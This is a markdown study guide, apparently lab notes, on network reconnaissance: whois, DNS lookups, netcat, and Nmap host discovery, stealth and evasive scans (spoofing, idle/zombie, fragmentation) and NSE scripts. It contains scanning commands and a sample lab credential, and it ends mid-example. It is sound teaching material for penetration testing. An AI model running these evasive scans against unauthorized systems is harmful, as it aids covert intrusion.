


# Network Hacking 

## Reconnaissance

### Passive Reconnaissance

In passive reconnaissance, you rely on publicly available knowledge. It is the knowledge that you can access from publicly available resources without directly engaging with the target. Think of it like you are looking at target territory from afar without stepping foot on that territory.

Passive reconnaissance activities include many activities, for instance:

*    Looking up DNS records of a domain from a public DNS server.
*    Checking job ads related to the target website.
*    Reading news articles about the target company.

#### Whois 

WHOIS is a request and response protocol that follows the RFC 3912 specification. A WHOIS server listens on TCP port 43 for incoming requests. The domain registrar is responsible for maintaining the WHOIS records for the domain names it is leasing. The WHOIS server replies with various information related to the domain requested. Of particular interest, we can learn:

*    Registrar: Via which registrar was the domain name registered?
*    Contact info of registrant: Name, organization, address, phone, among other things. (unless made hidden via a privacy service)
*    Creation, update, and expiration dates: When was the domain name first registered? When was it last updated? And when does it need to be renewed?
*    Name Server: Which server to ask to resolve the domain name?

```sh
whois DOMAIN_NAME
```
The information collected can be inspected to find new attack surfaces, such as social engineering or technical attacks. For instance, depending on the scope of the penetration test, you might consider an attack against the email server of the admin user or the DNS servers, assuming they are owned by your client and fall within the scope of the penetration test.

#### Name Server Lookups

##### nslookup (Name Server Look Up)

Find the IP address of a domain name using nslookup, which stands for Name Server Look Up. You need to issue the command `nslookup OPTIONS DOMAIN_NAME SERVER`, for example, `nslookup -type=a tryhackme.com 1.1.1.1`.


*    OPTIONS contains the query type as shown in the table below. For instance, you can use A for IPv4 addresses and AAAA for IPv6 addresses.
*    DOMAIN_NAME is the domain name you are looking up.
*    SERVER is the DNS server that you want to query. You can choose any local or public DNS server to query. Cloudflare offers 1.1.1.1 and 1.0.0.1, Google offers 8.8.8.8 and 8.8.4.4, and Quad9 offers 9.9.9.9 and 149.112.112.112. There are many more public DNS servers that you can choose from if you want alternatives to your ISP’s DNS servers.

Let’s say you want to learn about the email servers and configurations for a particular domain. You can issue `nslookup -type=MX DOMAIN_NAME`.

##### dig (Domain Information Groper)

For more advanced DNS queries and additional functionality, you can use `dig`.

```sh
dig @SERVER DOMAIN_NAME TYPE
```

*    SERVER is the DNS server that you want to query.
*    DOMAIN_NAME is the domain name you are looking up.
*    TYPE contains the DNS record type, as shown in the table provided earlier.

#### DNSDumpster

DNS lookup tools, such as nslookup and dig, cannot find subdomains on their own. The domain you are inspecting might include a different subdomain that can reveal much information about the target. This can be found at DNSDumpster: https://dnsdumpster.com/.

#### Shodan.io

When you are tasked to run a penetration test against specific targets, as part of the passive reconnaissance phase, a service like Shodan.io can be helpful to learn various pieces of information about the client’s network, without actively connecting to it. Furthermore, on the defensive side, you can use different services from Shodan.io to learn about connected and exposed devices belonging to your organization.

Shodan.io tries to connect to every device reachable online to build a search engine of connected “things” in contrast with a search engine for web pages. Once it gets a response, it collects all the information related to the service and saves it in the database to make it searchable.

### Active Reconnaissance

Active reconnaissance requires you to make some kind of contact with your target. This contact can be a phone call or a visit to the target company under some pretence to gather more information, usually as part of social engineering. Alternatively, it can be a direct connection to the target system, whether visiting their website or checking if their firewall has an SSH port open. Think of it like you are closely inspecting windows and door locks. 

Active reconnaissance begins with direct connections made to the target machine. Any such connection might leave information in the logs showing the client IP address, time of the connection, and duration of the connection, among other things. However, not all connections are suspicious. It is possible to let your active reconnaissance appear as regular client activity. Consider web browsing; no one would suspect a browser connected to a target web server among hundreds of other legitimate users. You can use such techniques to your advantage when working as part of the red team (attackers) and don’t want to alarm the blue team (defenders).

#### Web Browser

The web browser can be a convenient tool, especially that it is readily available on all systems. There are several ways where you can use a web browser to gather information about a target.

On the transport level, the browser connects to:

*    TCP port 80 by default when the website is accessed over HTTP
*    TCP port 443 by default when the website is accessed over HTTPS

Since 80 and 443 are default ports for HTTP and HTTPS, the web browser does not show them in the address bar. However, it is possible to use custom ports to access a service. For instance, https://127.0.0.1:8834/ will connect to 127.0.0.1 (localhost) at port 8834 via HTTPS protocol. If there is an HTTPS server listening on that port, we will receive a web page.

##### Tools

###### DevTools

Developer Tools lets you inspect many things that your browser has received and exchanged with the remote server. For instance, you can view and even modify the JavaScript (JS) files, inspect the cookies set on your system and discover the folder structure of the site content.

###### FoxyProxy

FoxyProxy lets you quickly change the proxy server you are using to access the target website. This browser extension is convenient when you are using a tool such as Burp Suite or if you need to switch proxy servers regularly.

###### User-Agent Switcher and Manager

User-Agent Switcher and Manager gives you the ability to pretend to be accessing the webpage from a different operating system or different web browser. In other words, you can pretend to be browsing a site using an iPhone when in fact, you are accessing it from Mozilla Firefox.

###### Wappalzer

Wappalyzer provides insights about the technologies used on the visited websites. Such extension is handy, primarily when you collect all this information while browsing the website like any other user.

##### Ping

The primary purpose of ping is to check whether you can reach the remote system and that the remote system can reach you back. In other words, initially, this was used to check network connectivity; however, we are more interested in its different uses: checking whether the remote system is online.

In simple terms, the ping command sends a packet to a remote system, and the remote system replies. This way, you can conclude that the remote system is online and that the network is working between the two systems. Furthermore, the ping is a command that sends an ICMP Echo packet to a remote system. If the remote system is online, and the ping packet was correctly routed and not blocked by any firewall, the remote system should send back an ICMP Echo Reply. Similarly, the ping reply should reach the first system if appropriately routed and not blocked by any firewall.

Technically speaking, ping falls under the protocol ICMP (Internet Control Message Protocol). ICMP supports many types of queries, but, in particular, we are interested in ping (ICMP echo/type 8) and ping reply (ICMP echo reply/type 0). 

###### Example:

```sh
ping -c 5 10.10.32.177
```
Generally speaking, when we don’t get a ping reply back, there are a few explanations that would explain why we didn’t get a ping reply, for example:

*    The destination computer is not responsive; possibly still booting up or turned off, or the OS has crashed.
*    It is unplugged from the network, or there is a faulty network device across the path.
*    A firewall is configured to block such packets. The firewall might be a piece of software running on the system itself or a separate network appliance. Note that MS Windows firewall blocks ping by default.
*    Your system is unplugged from the network.

#### Traceroute

As the name suggests, the traceroute command traces the route taken by the packets from your system to another host. The purpose of a traceroute is to find the IP addresses of the routers or hops that a packet traverses as it goes from your system to a target host. This command also reveals the number of routers between the two systems. It is helpful as it indicates the number of hops (routers) between your system and the target host. However, note that the route taken by the packets might change as many routers use dynamic routing protocols that adapt to network changes.

```sh
traceroute IP_ADDRESS
```
There is no direct way to discover the path from your system to a target system. We rely on ICMP to “trick” the routers into revealing their IP addresses. We can accomplish this by using a small Time To Live (TTL) in the IP header field. Although the T in TTL stands for time, TTL indicates the maximum number of routers/hops that a packet can pass through before being dropped; TTL is not a maximum number of time units. When a router receives a packet, it decrements the TTL by one before passing it to the next router. 

However, if the TTL reaches 0, it will be dropped, and an ICMP Time-to-Live exceeded would be sent to the original sender. In the following figure, the system set TTL to 1 before sending it to the router. The first router on the path decrements the TTL by 1, resulting in a TTL of 0. Consequently, this router will discard the packet and send an ICMP time exceeded in-transit error message. Note that some routers are configured not to send such ICMP messages when discarding a packet.

On Linux, `traceroute` will start by sending UDP datagrams within IP packets of TTL being 1. Thus, it causes the first router to encounter a TTL=0 and send an ICMP Time-to-Live exceeded back. Hence, a TTL of 1 will reveal the IP address of the first router to you. Then it will send another packet with TTL=2; this packet will be dropped at the second router. And so on. Let’s try this on live systems.

#### Telnet (Teletype Network)

The TELNET (Teletype Network) protocol was developed in 1969 to communicate with a remote system via a command-line interface (CLI). Hence, the command telnet uses the TELNET protocol for remote administration. The default port used by telnet is 23. From a security perspective, telnet sends all the data, including usernames and passwords, in cleartext. Sending in cleartext makes it easy for anyone, who has access to the communication channel, to steal the login credentials. The secure alternative is SSH (Secure SHell) protocol. Using `telnet IP_ADDRESS PORT`, you can connect to any service running on TCP and even exchange a few messages unless it uses encryption.

Let’s say we want to discover more information about a web server, listening on port 80. We connect to the server at port 80, and then we communicate using the HTTP protocol. You don’t need to dive into the HTTP protocol; you just need to issue GET / HTTP/1.1. To specify something other than the default index page, you can issue GET /page.html HTTP/1.1, which will request page.html. We also specified to the remote web server that we want to use HTTP version 1.1 for communication. To get a valid response, instead of an error, you need to input some value for the host host: example and hit enter twice. Executing these steps will provide the requested index page.

Of particular interest for us is discovering the type and version of the installed web server, Server: nginx/1.6.2. In this example, we communicated with a web server, so we used basic HTTP commands. If we connect to a mail server, we need to use proper commands based on the protocol, such as SMTP and POP3.

#### Netcat

Netcat or simply nc has different applications that can be of great value to a pentester. Netcat supports both TCP and UDP protocols. It can function as a client that connects to a listening port; alternatively, it can act as a server that listens on a port of your choice. Hence, it is a convenient tool that you can use as a simple client or server over TCP or UDP.

First, you can connect to a server, as you did with Telnet, to collect its banner using 

```sh
nc IP_ADDRESS PORT
```

Next, we issued a get for the default page using `GET / HTTP/1.1`; we are specifying to the target server that our client supports HTTP version 1.1. Finally, we need to give a name to our host, so we added on a new line, `host: netcat`; you can name your host anything as this has no impact on this exercise.

Based on the output Server: nginx/1.6.2 we received, we can tell that on port 80, we have Nginx version 1.6.2 listening for incoming connections.

You can use netcat to listen on a TCP port and connect to a listening port on another system.

On the server system, where you want to open a port and listen on it, you can issue `nc -vnlp PORT`.

### Nmap

When we want to target a network, we want to find an efficient tool to help us handle repetitive tasks and answer the following questions:

1.    Which systems are up?
2.    What services are running on these systems?

We present the different approaches that Nmap uses to discover live hosts. In particular, we cover:

1.    ARP scan: This scan uses ARP requests to discover live hosts
2.    ICMP scan: This scan uses ICMP requests to identify live hosts
3.    TCP/UDP ping scan: This scan sends packets to TCP ports and UDP ports to determine live hosts.

We also introduce two scanners, `arp-scan` and `masscan`, and explain how they overlap with part of Nmap’s host discovery.

A Nmap scan usually goes through the steps shown in the figure below, although many are optional and depend on the command-line arguments you provide.



#### ARP Request

As part of active reconnaissance, we want to discover more information about a group of hosts or about a subnet. If you are connected to the same subnet, you would expect your scanner to rely on ARP (Address Resolution Protocol) queries to discover live hosts. An ARP query aims to get the hardware address (MAC address) so that communication over the link-layer becomes possible; however, we can use this to infer that the host is online. (We revisit link-layer in Task 4.)

If you are in Network A, you can use ARP only to discover the devices within that subnet (10.1.100.0/24). Suppose you are connected to a subnet different from the subnet of the target system(s). In that case, all packets generated by your scanner will be routed via the default gateway (router) to reach the systems on another subnet; however, the ARP queries won’t be routed and hence cannot cross the subnet router. ARP is a link-layer protocol, and ARP packets are bound to their subnet.

#### Enumerating Targets

Before we explain each in detail and put it into use against a live target, we need to specify the targets we want to scan. Generally speaking, you can provide a list, a range, or a subnet. Examples of target specification are:

*    list: MACHINE_IP scanme.nmap.org example.com will scan 3 IP addresses.
*    range: 10.11.12.15-20 will scan 6 IP addresses: 10.11.12.15, 10.11.12.16,… and 10.11.12.20.
*    subnet: MACHINE_IP/30 will scan 4 IP addresses.
*    file: `nmap -iL list_of_hosts.txt`

If you want to check the list of hosts that Nmap will scan, you can use `nmap -sL TARGETS`. This option will give you a detailed list of the hosts that Nmap will scan without scanning them; however, Nmap will attempt a reverse-DNS resolution on all the targets to obtain their names. Names might reveal various information to the pentester. (If you don’t want Nmap to the DNS server, you can add -n.)

#### Discovering Live Hosts

Let’s revisit the TCP/IP layers shown in the figure next. We will leverage the protocols to discover the live hosts. Starting from bottom to top, we can use:

*    ARP from Link Layer
*    ICMP from Network Layer
*    TCP from Transport Layer
*    UDP from Transport Layer



**ARP** has one purpose: sending a frame to the broadcast address on the network segment and asking the computer with a specific IP address to respond by providing its MAC (hardware) address.

**ICMP** has [many Types](https://www.iana.org/assignments/icmp-parameters/icmp-parameters.xhtml). ICMP ping uses Type 8 (Echo) and Type 0 (Echo Reply).

If you want to ping a system on the same subnet, an ARP query should precede the ICMP Echo.

Although TCP and UDP are transport layers, for network scanning purposes, a scanner can send a specially-crafted packet to common TCP or UDP ports to check whether the target will respond. This method is efficient, especially when ICMP Echo is blocked.

#### Nmap Host Discovery Using ARP

When a privileged user tries to scan targets on a local network (Ethernet), Nmap uses ARP requests. A privileged user is `root` or a user who belongs to `sudoer`s and can run `sudo`.

Nmap, by default, uses a ping scan to find live hosts, then proceeds to scan live hosts only. If you want to use Nmap to discover online hosts without port-scanning the live systems, you can issue `nmap -sn TARGETS`. Let’s dig deeper to gain a solid understanding of the different techniques used.

 If you want Nmap only to perform an ARP scan without port-scanning, you can use `nmap -PR -sn TARGETS`, where -PR indicates that you only want an ARP scan. The following example shows Nmap using ARP for host discovery without any port scanning. We run `nmap -PR -sn MACHINE_IP/24` to discover all the live systems on the same subnet as our target machine. 
 
 Talking about ARP scans, we should mention a scanner built around ARP queries: `arp-scan`; it provides many options to customize your scan. Visit the arp-scan wiki for detailed information. One popular choice is `arp-scan --localnet` or simply `arp-scan -l`. This command will send ARP queries to all valid IP addresses on your local networks. 
 
 #### Nmap Host Discovery Using ICMP
 
 We can ping every IP address on a target network and see who would respond to our ping (ICMP Type 8/Echo) requests with a ping reply (ICMP Type 0). Many firewalls block ICMP echo; new versions of MS Windows are configured with a host firewall that blocks ICMP echo requests by default. Remember that an ARP query will precede the ICMP request if your target is on the same subnet.
 
 To use ICMP echo request to discover live hosts, add the option `-PE`. (Remember to add -sn if you don’t want to follow that with a port scan.) As shown in the following figure, an ICMP echo scan works by sending an ICMP echo request and expects the target to reply with an ICMP echo reply if it is online.
 
**Generally speaking, we don’t expect to learn the MAC addresses of the targets unless they are on the same subnet as our system.**

Because ICMP echo requests tend to be blocked, you might also consider ICMP Timestamp or ICMP Address Mask requests to tell if a system is online. Nmap uses timestamp request (ICMP Type 13) and checks whether it will get a Timestamp reply (ICMP Type 14). Adding the `-PP` option tells Nmap to use ICMP timestamp requests. As shown in the figure below, you expect live hosts to reply.

Similarly, Nmap uses address mask queries (ICMP Type 17) and checks whether it gets an address mask reply (ICMP Type 18). 

In an attempt to discover live hosts using ICMP address mask queries, we run the command `nmap -PM -sn MACHINE_IP/24`. Although, this scan can return none. The reason is that the target system or a firewall on the route is blocking this type of ICMP packet. Therefore, it is essential to learn multiple approaches to achieve the same result. 

#### Nmap Host Discovery Using TCP and UDP

###### TCP SYN Ping

We can send a packet with the SYN (Synchronize) flag set to a TCP port, 80 by default, and wait for a response. An open port should reply with a SYN/ACK (Acknowledge); a closed port would result in an RST (Reset). In this case, we only check whether we will get any response to infer whether the host is up. The specific state of the port is not significant here. If you want Nmap to use TCP SYN ping, you can do so via the option `-PS` followed by the port number, range, list, or a combination of them.

###### TCP ACK Ping

This sends a packet with an ACK flag set. You must be running Nmap as a privileged user to be able to accomplish this. If you try it as an unprivileged user, Nmap will attempt a 3-way handshake. By default, port 80 is used. The syntax is similar to TCP SYN ping. `-PA` should be followed by a port number, range, list, or a combination of them.

###### UDP Ping

Finally, we can use UDP to discover if the host is online. Contrary to TCP SYN ping, sending a UDP packet to an open port is not expected to lead to any reply. However, if we send a UDP packet to a closed UDP port, we expect to get an ICMP port unreachable packet; this indicates that the target system is up and available. The syntax to specify the ports is similar to that of TCP SYN ping and TCP ACK ping; Nmap uses`-PU` for UDP ping.

###### Masscan 

Masscan uses a similar approach to discover the available systems. However, to finish its network scan quickly, Masscan is quite aggressive with the rate of packets it generates. The syntax is quite similar: '-P' can be followed by a port number, list, or range.

#### Nmap Port Scans

##### TCP and UDP Ports

In the same sense that an IP address specifies a host on a network among many others, a TCP port or UDP port is used to identify a network service running on that host. A server provides the network service, and it adheres to a specific network protocol.

Nmap considers the following six states:


1. **Open**: indicates that a service is listening on the specified port.
2. **Closed**: indicates that no service is listening on the specified port, although the port is accessible. By accessible, we mean that it is reachable and is not blocked by a firewall or other security appliances/programs.
3. **Filtered**: means that Nmap cannot determine if the port is open or closed because the port is not accessible. This state is usually due to a firewall preventing Nmap from reaching that port. Nmap’s packets may be blocked from reaching the port; alternatively, the responses are blocked from reaching Nmap’s host.
4. **Unfiltered**: means that Nmap cannot determine if the port is open or closed, although the port is accessible. This state is encountered when using an ACK scan -sA.
5. **Open|Filtered**: This means that Nmap cannot determine whether the port is open or filtered.
6. **Closed|Filtered**: This means that Nmap cannot decide whether a port is closed or filtered.

##### TCP Scans

###### TCP Connect

TCP connect scan works by completing the TCP 3-way handshake. In standard TCP connection establishment, the client sends a TCP packet with SYN flag set, and the server responds with SYN/ACK if the port is open; finally, the client completes the 3-way handshake by sending an ACK. You can choose to run TCP connect scan using `-sT`. 

It is important to note that if you are not a privileged user (root or sudoer), a TCP connect scan is the only possible option to discover open TCP ports.

###### TCP SYN

Unprivileged users are limited to connect scan. However, the default scan mode is SYN scan, and it requires a privileged (root or sudoer) user to run it. SYN scan does not need to complete the TCP 3-way handshake; instead, it tears down the connection once it receives a response from the server. Because we didn’t establish a TCP connection, this decreases the chances of the scan being logged. We can select this scan type by using the `-sS` option.

###### NULL Scan

The null scan does not set any flag; all six flag bits are set to zero. You can choose this scan using the `-sN` option. A TCP packet with no flags set will not trigger any response when it reaches an open port, as shown in the figure below. Therefore, from Nmap’s perspective, a lack of reply in a null scan indicates that either the port is open or a firewall is blocking the packet. 

However, we expect the target server to respond with an RST packet if the port is closed. Consequently, we can use the lack of RST response to figure out the ports that are not closed: open or filtered. 

**Note that many Nmap options require root privileges.**

###### FIN Scan

The FIN scan sends a TCP packet with the FIN flag set. You can choose this scan type using the `-sF` option. Similarly, no response will be sent if the TCP port is open. Again, Nmap cannot be sure if the port is open or if a firewall is blocking the traffic related to this TCP port.

However, the target system should respond with an RST if the port is closed. Consequently, we will be able to know which ports are closed and use this knowledge to infer the ports that are open or filtered. It's worth noting some firewalls will 'silently' drop the traffic without sending an RST.

###### XMAS Scan

The Xmas scan gets its name after Christmas tree lights. An Xmas scan sets the FIN, PSH, and URG flags simultaneously. You can select Xmas scan with the option `-sX`.

Like the Null scan and FIN scan, if an RST packet is received, it means that the port is closed. Otherwise, it will be reported as open|filtered.

On scenario where these three scan types can be efficient is when scanning a target behind a stateless (non-stateful) firewall. A stateless firewall will check if the incoming packet has the SYN flag set to detect a connection attempt. Using a flag combination that does not match the SYN packet makes it possible to deceive the firewall and reach the system behind it. However, a stateful firewall will practically block all such crafted packets and render this kind of scan useless.

###### TCP ACK Scan

As the name implies, an ACK scan will send a TCP packet with the ACK flag set. Use the `-sA` option to choose this scan. The target would respond to the ACK with RST regardless of the state of the port. This behaviour happens because a TCP packet with the ACK flag set should be sent only in response to a received TCP packet to acknowledge the receipt of some data, unlike our case. Hence, this scan won’t tell us whether the target port is open in a simple setup.

This kind of scan would be helpful if there is a firewall in front of the target. Consequently, based on which ACK packets resulted in responses, you will learn which ports were not blocked by the firewall. In other words, this type of scan is more suitable to discover firewall rule sets and configuration.

###### Window Scan

Another similar scan is the TCP window scan. The TCP window scan is almost the same as the ACK scan; however, it examines the TCP Window field of the RST packets returned. On specific systems, this can reveal that the port is open. You can select this scan type with the option `-sW`. As shown in the figure below, we expect to get an RST packet in reply to our “uninvited” ACK packets, regardless of whether the port is open or closed.

The TCP window scan points to ports and detects them as closed. (This is in contrast with the ACK scan that labelled the same ports as unfiltered.) Although we know that these ports are not closed, we realize they responded differently, indicating that the firewall does not block them.

###### Custom Scan

If you want to experiment with a new TCP flag combination beyond the built-in TCP scan types, you can do so using `--scanflags`. For instance, if you want to set SYN, RST, and FIN simultaneously, you can do so using `--scanflags RSTSYNFIN`

Finally, it is essential to note that the ACK scan and the window scan were very efficient at helping us map out the firewall rules. However, it is vital to remember that just because a firewall is not blocking a specific port, it does not necessarily mean that a service is listening on that port. For example, there is a possibility that the firewall rules need to be updated to reflect recent service changes. Hence, ACK and window scans are exposing the firewall rules, not the services.

##### UDP Scan

UDP is a connectionless protocol, and hence it does not require any handshake for connection establishment. We cannot guarantee that a service listening on a UDP port would respond to our packets. However, if a UDP packet is sent to a closed port, an ICMP port unreachable error (type 3, code 3) is returned. You can select UDP scan using the `-sU` option; moreover, you can combine it with another TCP scan. 

Sending a UDP packet to an open port won’t tell us anything. However, as shown in the figure below, we expect to get an ICMP packet of type 3, destination unreachable, and code 3, port unreachable. In other words, the UDP ports that don’t generate any response are the ones that Nmap will state as open.

##### Spoofing and Decoys

In some network setups, you will be able to scan a target system using a spoofed IP address and even a spoofed MAC address. Such a scan is only beneficial in a situation where you can guarantee to capture the response. If you try to scan a target from some random network using a spoofed IP address, chances are you won’t have any response routed to you, and the scan results could be unreliable. Consequently, Nmap will craft all the packets using the provided source IP address SPOOFED_IP. The target machine will respond to the incoming packets sending the replies to the destination IP address SPOOFED_IP. For this scan to work and give accurate results, the attacker needs to monitor the network traffic to analyze the replies. 

In general, you expect to specify the network interface using `-e` and to explicitly disable ping scan `-Pn`. Therefore, instead of `nmap -S SPOOFED_IP 10.10.159.213`, you will need to issue `nmap -e NET_INTERFACE -Pn -S SPOOFED_IP 10.10.159.213` to tell Nmap explicitly which network interface to use and not to expect to receive a ping reply. It is worth repeating that this scan will be useless if the attacker system cannot monitor the network for responses. 

##### Idle/Zombie Scan

Spoofing the source IP address can be a great approach to scanning stealthily. However, spoofing will only work in specific network setups. It requires you to be in a position where you can monitor the traffic. Considering these limitations, spoofing your IP address can have little use; however, we can give it an upgrade with the idle scan.

The idle scan, or zombie scan, requires an idle system connected to the network that you can communicate with. Practically, Nmap will make each probe appear as if coming from the idle (zombie) host, then it will check for indicators whether the idle (zombie) host received any response to the spoofed probe. This is accomplished by checking the IP identification (IP ID) value in the IP header. You can run an idle scan using `nmap -sI ZOMBIE_IP 10.10.159.213`

The idle (zombie) scan requires the following three steps to discover whether a port is open:

1.    Trigger the idle host to respond so that you can record the current IP ID on the idle host.
2.    Send a SYN packet to a TCP port on the target. The packet should be spoofed to appear as if it was coming from the idle host (zombie) IP address.
3.    Trigger the idle machine again to respond so that you can compare the new IP ID with the one received earlier.

It is worth repeating that this scan is called an idle scan because choosing an idle host is indispensable for the accuracy of the scan. If the “idle host” is busy, all the returned IP IDs would be useless.

##### Fragmented Packets

Nmap provides the option `-f` o fragment packets. Once chosen, the IP data will be divided into 8 bytes or less. Adding another `-f` will split the data into 16 byte-fragments instead of 8.

##### Miscellaneous

* You might consider adding `--reason` if you want Nmap to provide more details regarding its reasoning and conclusions. Providing the --reason flag gives us the explicit reason why Nmap concluded that the system is up or a particular port is open.
* For more detailed output, you can consider using `-v` for verbose output or `-vv` for even more verbosity.
* If `-vv` does not satisfy your curiosity, you can use `-d` for debugging details or `-dd` for even more details. You can guarantee that using `-d` will create an output that extends beyond a single screen.

#### Nmap Post Port Scans

##### Service Detection

Once Nmap discovers open ports, you can probe the available port to detect the running service. Further investigation of open ports is an essential piece of information as the pentester can use it to learn if there are any known vulnerabilities of the service. 

Adding `-sV` to your Nmap command will collect and determine service and version information for the open ports. You can control the intensity with `--version-intensity LEVEL` where the level ranges between 0, the lightest, and 9, the most complete.

It is important to note that using `-sV` will force Nmap to proceed with the TCP 3-way handshake and establish the connection. The connection establishment is necessary because Nmap cannot discover the version without establishing a connection fully and communicating with the listening service. In other words, stealth SYN scan `-sS` is not possible when `-sV` option is chosen.

##### OS detection and Traceroute

Nmap can detect the Operating System (OS) based on its behaviour and any telltale signs in its responses. OS detection can be enabled using `-O` 

The OS detection is very convenient, but many factors might affect its accuracy. First and foremost, Nmap needs to find at least one open and one closed port on the target to make a reliable guess. Furthermore, the guest OS fingerprints might get distorted due to the rising use of virtualization and similar technologies. Therefore, always take the OS version with a grain of salt.

##### Traceroute

If you want Nmap to find the routers between you and the target, just add `--traceroute`.

It is worth mentioning that many routers are configured not to send ICMP Time-to-Live exceeded, which would prevent us from discovering their IP addresses.

##### Nmap Scripting Engine (NSE)

A part of Nmap, Nmap Scripting Engine (NSE) is a Lua interpreter that allows Nmap to execute Nmap scripts written in Lua language.

Nmap's default installation can easily contain close to 600 scripts. In `/usr/share/nmap/scripts`, there are hundreds of scripts conveniently named starting with the protocol they target. 

You can choose to run the scripts in the default category using `--script=default` or simply adding `-sC`. In addition to default, categories include auth, broadcast, brute, default, discovery, dos, exploit, external, fuzzer, intrusive, malware, safe, version, and vuln. Some scripts belong to more than one category. Moreover, some scripts launch brute-force attacks against services, while others launch DoS attacks and exploit systems. Hence, it is crucial to be careful when selecting scripts to run if you don’t want to crash services or exploit them.

You can also specify the script by name using `--script "SCRIPT-NAME"` or a pattern such as `--script "ftp*"`, which would include `ftp-brute`.  If you are unsure what a script does, you can open the script file with a text reader, such as `less`, or a text editor. In the case of `ftp-brute`, it states: “Performs brute force password auditing against FTP servers.” You have to be careful as some scripts are pretty intrusive. Moreover, some scripts might be for a specific server and, if chosen at random, will waste your time with no benefit. As usual, make sure that you are authorized to launch such tests on the target server. 

Finally, you might expand the functionality of Nmap beyond the official Nmap scripts; you can write your script or download Nmap scripts from the Internet. Downloading and using a Nmap script from the Internet holds a certain level of risk. So it is a good idea not to run a script from an author you don’t trust.

##### Saving the Output

Whenever you run a Nmap scan, it is only reasonable to save the results in a file. Selecting and adopting a good naming convention for your filenames is also crucial. The number of files can quickly grow and hinder your ability to find a previous scan result. 

Conveniently enough, you can save the scan output in all three formats using `-oA FILENAME` to combine `-oN`, `-oG`, and `-oX` for normal, grepable, and XML. 

###### Normal

As the name implies, the normal format is similar to the output you get on the screen when scanning a target. You can save your scan in normal format by using `-oN FILENAME`; N stands for normal. 

###### Grepable

The grepable format has its name from the command `grep` ; grep stands for Global Regular Expression Printer. In simple terms, it makes filtering the scan output for specific keywords or terms efficient. You can save the scan result in grepable format using `-oG FILENAME`.

###### XML

The third format is XML. You can save the scan results in XML format using `-ox FILENAME`. The XML format would be most convenient to process the output in other programs. 

###### Script Kiddie

A fourth format is script kiddie. This format is useless if you want to search the output for any interesting keywords or keep the results for future reference. However, you can use it to save the output of the scan `nmap -sS IP_ADDRESS -oS FILENAME`, display the output filename, and look 31337 in front of friends who are not tech-savvy.

### Protocols and Servers

#### Telnet

The Telnet protocol is an application layer protocol used to connect to a virtual terminal of another computer. Using Telnet, a user can log into another computer and access its terminal (console) to run programs, start batch processes, and perform system administration tasks remotely.

Telnet protocol is relatively simple. When a user connects, they will be asked for a username and password. Upon correct authentication, the user will access the remote system’s terminal. Unfortunately, all this communication between the Telnet client and the Telnet server is not encrypted, making it an easy target for attackers. A Telnet server uses the Telnet protocol to listen for incoming connections on port 23.

###### Example

```sh
telnet MACHINE_IP
```


1.    First, he is asked to provide his login name (username). We can see the user entering frank.
2.    Then, he is asked for the password, D2xc9CgD. 
3.    Once the system checks his login credentials, he is greeted with a welcome message.
4.    And the remote server grants him a command prompt, `frank@bento:~$`. The $ indicates that this is not a root terminal.


#### Hypertext Transfer Protocol (HTTP)

Hypertext Transfer Protocol (HTTP) is the protocol used to transfer web pages. Your web browser connects to the webserver and uses HTTP to request HTML pages and images among other files and submit forms and upload various files. Anytime you browse the World Wide Web (WWW), you are certainly using the HTTP protocol.

HTTP sends and receives data as cleartext (not encrypted); therefore, you can use a simple tool, such as Telnet (or Netcat), to communicate with a web server and act as a “web browser”. The key difference is that you need to input the HTTP-related commands instead of the web browser doing that for you. HTTP uses port 80.

###### Example

```sh
telnet MACHINE_IP 80
```


1.    First, we connect to port 80 using `telnet MACHINE_IP 80`.
